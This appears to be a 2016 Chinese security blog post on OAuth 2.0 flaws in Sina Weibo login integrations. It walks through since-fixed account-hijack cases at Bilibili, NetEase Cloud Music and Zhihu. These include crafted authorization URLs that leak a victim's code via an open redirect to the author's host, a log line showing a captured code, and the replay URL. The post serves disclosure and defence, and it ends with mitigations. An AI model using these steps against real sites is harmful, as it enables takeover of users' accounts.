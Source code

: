 title: "“脆弱”的微博OAuth 2.0"
date: 2016-02-16 22:19:40
tags: [安全, OAuth 2.0]
---

## 前言

这篇文章将介绍WEB网站在接入第三方账号系统：新浪微博进行用户身份验证登录时会遇到的几个问题。前段时间我在乌云上报了几个与这方面相关的漏洞，后面的内容会有实际的例子进行说明，不过存在的问题都已经得到修复。

## 新浪微博的OAuth 2.0

接下来以开发者的角度来描述一下登录的过程。

1. 用户通过浏览器访问Web网站并通过希望通过新浪微博进行登录，我们需要将其引导到以下的页面：`https://api.weibo.com/oauth2/authorize?client_id=YOUR_CLIENT_ID&response_type=code&redirect_uri=YOUR_REGISTERED_REDIRECT_URI`
2. 用户填写微博的账号及密码，同意授权后新浪微博会将页面跳转到`YOUR_REGISTERED_REDIRECT_URI/?code=CODE`
3. 后台通过这个接口就可以拿到用户的授权码，使用这个code，我们就可以在后台通过新浪提供的API：`https://api.weibo.com/oauth2/access_token?client_id=YOUR_CLIENT_ID&client_secret=YOUR_CLIENT_SECRET&grant_type=authorization_code&redirect_uri=YOUR_REGISTERED_REDIRECT_URI&code=CODE`，获取访问用户资源的Access Token，从而使用用户的身份完成一些授权的操作，如获取微博的账号信息。

而在一些网站应用中，也允许用户的账号去绑定新浪微博的账号，然后就可以通过新浪微博进行登录，例如知乎，其绑定账号的过程也是类似上面的流程。

相关链接：[Web网站的授权](http://open.weibo.com/wiki/%E6%8E%88%E6%9D%83%E6%9C%BA%E5%88%B6%E8%AF%B4%E6%98%8E)

## 各种姿势

### 0x00 绑定接口的CSRF
案例：[点我的链接我就可能会进入你的B站账号](http://wooyun.org/bugs/wooyun-2016-0169000)

首先得感谢一下[@呆子不开口](http://wooyun.org/whitehats/%E5%91%86%E5%AD%90%E4%B8%8D%E5%BC%80%E5%8F%A3)，这个姿势是从他那里学习来的。用一句话总结一下：发起绑定第三方账号的接口存在CSRF问题，导致用户点击攻击者构造的页面后，攻击者的微博就绑定到了用户的账号下，从而造成攻击者能以受害用户的身份登录网站。接下来我将以B站之前存在的漏洞来说明构造攻击页面的过程。

1. 在攻击页面中，用户点击页后，我们要先在用户的浏览器上登录指定的微博账号。注意该账号要先授权给bilibili，因为新浪微博的授权有如下特点，如果当前登陆的微博曾经授权过bilibili，那么就会自动跳过前面的授权步骤直接完成绑定。登录微博的过程我用的方式比较简单粗暴，使用的是`http://weibo.cn`的登录接口。注：当时这个接口不需要验证码，现已加上，所以也就不存在登录CSRF的问题了。
2. 登录微博完成后，我们利用js在页面中插入一个`img`标签，指定src为`https://account.bilibili.com/login?sns=weibo`，加载完成后，我们的微博账号就绑定到了用户的账号中。

### 0x01 没有完整验证绑定流程

案例：[点我的链接我就可能会进入你的网易云音乐](http://wooyun.org/bugs/wooyun-2016-0170272)

网易云音乐的绑定微博账号流程如下：
1. GET `http://music.163.com/api/sns/authorize?callbackType=Binding&clientType=web2&forcelogin=true&snsType=2&csrf_token=d0728eed66ae5189b66579d943559dc4`
2. 302调整到：`https://api.weibo.com/oauth2/authorize?client_id=301575942&response_type=code&redirect_uri=http://music.163.com/back/weibo&scope=friendships_groups_read,statuses_to_me_read,follow_app_official_microblog&state=pYkkCeJkYU&forcelogin=true&csrf_token=d0728eed66ae5189b66579d943559dc4`
3. 用户授权完成后，跳转到`http://music.163.com/back/weibo?state=pYkkCeJkYU&code=0e9e160fbbec0955f6e04a7c79b2e5fb`

可以看到，发起绑定的接口用了`csrf_token`参数来防止CSRF攻击，因此不存在上面提到的问题。然而百密一疏，我们可以跳过第一步，直接引导用户到第二步，如果第三步`/back/weibo`这个接口没有验证state参数同时也没有验证用户是否主动发起过绑定，那么我们就可以用先登录指定微博，然后将该微博绑定到用户账号的方式，获取用户登录网易云音乐的权限。state参数就是用来防止这种情况的，然而云音乐的开发者并没有好好用上，引用一下新浪的文档：
>用于保持请求和回调的状态，在回调时，会在Query Parameter中回传该参数。开发者可以用这个参数验证请求有效性，也可以记录用户请求授权页前的位置。这个参数可用于防止跨站请求伪造（CSRF）攻击

具体的过程如下：
1. 用户登录了网易云音乐，点击了攻击者的链接
2. 在攻击者的页面中，主要过程是利用新浪微博的登录接口先登录攻击者的微博账号，注：攻击者的微博账号需要先授权给网易云音乐并关注，然后前端偷偷跳转到下面的地址，就可以将攻击者的微博账号绑定到用户的账号中`https://api.weibo.com/oauth2/authorize?client_id=301575942&response_type=code&redirect_uri=http://music.163.com/back/weibo&scope=friendships_groups_read,statuses_to_me_read,follow_app_official_microblog`
3. 攻击者利用自己的微博账号即可登录受害者的网易云音乐的账号

### 0x02 用户授权code被盗

先说一下效果，用户在微博点击我构造好的URL之后，我就可以骗到该用户的授权code，利用这个code我们就可以以用户的身份登录其授权过的某些网站。至于要怎么做到，后面我用知乎的例子来说明吧，目前也修复了。

案例链接：[微博上你点我链接我就上你绑定过的知乎账号](http://wooyun.org/bugs/wooyun-2016-0174018)和[微博上你点我链接我就上你绑定过的网易通行证（涉及考拉海购/BOBO/同城约会等）](http://wooyun.org/bugs/wooyun-2016-0175030) 

在知乎上，问题中的URL链接都是使用了一个接口进行跳转的，例如我在知乎上不要脸地回答了一个问题的[答案](https://www.zhihu.com/question/37062603/answer/71139922)中 ，里面的URL都是类似这样子的
```
https://link.zhihu.com/?target=http%3A//www.wooyun.org/whitehats/zhchbin
```
这个URL能够跳转到任意的网址，且不需要用户确认！我们可以利用这个问题来做什么的？接下来就看我一步步构造一个恶意的URL。上面的接口是HTTPS的，而我的网站只支持HTTP，为了从`referrer`偷到用户的code信息，所以我先试了一下http是否可以，发现是没问题的。课外知识：[关于https -> http 跳转的referrer](http://serverfault.com/questions/520244/referer-is-passed-from-https-to-http-in-some-cases-how)

NEXT：知乎登录页面中的微博登录是跳转到如下的URL：

```
https://api.weibo.com/oauth2/authorize?
scope=email&
state=e9887b485320b0cab80b0d029e92759f&
redirect_uri=https%3A%2F%2Fwww.zhihu.com%2Foauth%2Fcallback%2Flogin%2Fsina&
response_type=code&
client_id=3063806388
```

由之前的基础知识我们可以知道，要想拿到code，就得利用`redirect_uri`参数跳转到我们自己的网站。但是这里有个域名的限制，如果你把redirect_uri直接改成其他网站，微博是会报`(error:redirect_uri_mismatch)`错误的，所以我们只能使用知乎下的域名。经测试：在接入微博登录的过程中，我们需要验证域名，如果域名是xxx.com，则其子域名也能与`client_id`匹配。而测试后我猜测知乎用的域名是`zhihu.com`，所以`link.zhihu.com`也能与client_id匹配。所以利用上面的接口，构造出以下的URL：

```
https://api.weibo.com/oauth2/authorize?
scope=email&
state=e9887b485320b0cab80b0d029e92759f&
redirect_uri=http%3A%2F%2Flink.zhihu.com%2F%3Ftarget%3Dhttp%3A%2F%2Fa.zhchbin.xyz%2Fauth%3F&
response_type=code&
client_id=3063806388
```
一个在授权过知乎的微博用户点击上面的URL后，就会加上code参数之后，自动跳转到redirect_uri参数指定的URL。微博这样便利的默认行为，在这里帮了大忙。如果伪装的好，用户点了链接之后会根本就不知道发生了什么事情。

```
http://link.zhihu.com/?target=http://a.zhchbin.xyz/auth?&state=e9887b485320b0cab80b0d029e92759f&code=776b93bbf6b2474067f593d743f36380
```
NEXT：上面的URL页面会使用JS调整到target参数中，这个时候我们查看一下auth接口的referrer，就可以找到用户的code，例如：
```
[31/Jan/2016:15:28:31 +0800] "GET /auth? HTTP/1.1" 404 402 "http://link.zhihu.com/?target=http://a.zhchbin.xyz/auth?&state=e9887b485320b0cab80b0d029e92759f&code=ad3d1b20385f891a36e498cb470146e5" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.82 Safari/537.36" "2.94"
```

拿到这个code参数之后，在我们自己的浏览器中打开下面的链接，就可以以受害用户的身份来登录知乎了

```
https://www.zhihu.com/oauth/callback/login/sina?
state=17324074ce785e6296061cf1381f6f8b&
code=ad3d1b20385f891a36e498cb470146e5
```

其中state参数的值是知乎首页的cookie中_xsrf对应的值。目前知乎已经修复这个问题，具体的修复方式就没有认真研究，我觉得最好的方式是在URL跳转前加一个安全提示，让用户确认的。

## 总结

可以发现OAuth2.0整个过程中都有不少容易被忽略的点，这里总结一下我认为的要写好第三方通信证登录及账号绑定需要注意的事情：

1. 发起绑定的接口不能存在CSRF问题。鬼知道用户浏览器上登录的微博账号就一定是用户的呢，你说对不。
2. 用好OAuth2.0的State参数，用的好，就不会有上面提到的网易云音乐类似问题，还是要防止CSRF问题的。RFC中对这个参数是推荐的哦。
3. 我觉得OAuth2.0的认证服务器在给开发者接入的时候应该要求使用完整的redirect_uri参数，而不是域名。而对于开发者，你无法改变微博的登记方式，只能让自己的站点不要存在任意URL调整的问题，比如能在跳转到其他站点前提示一下用户就提示一下。注：网易通信证那个问题，也是一个奇葩的任意URL跳转。

PS：我书读得少，脑子不好使，以上内容如有错误，请和谐点指出。

最后还是要放几个链接：

* http://drops.wooyun.org/web/12695
* http://weibo.com/p/1001603921767675649900?from=page_100505_profile&wvr=6&mod=wenzhangmod
* https://github.com/knownsec/KCon/blob/master/KCon%20V3/%E5%88%A9%E7%94%A8OAuth%E5%8A%AB%E6%8C%81%E7%94%A8%E6%88%B7%E8%BA%AB%E4%BB%BD.ppt
* http://drops.wooyun.org/papers/598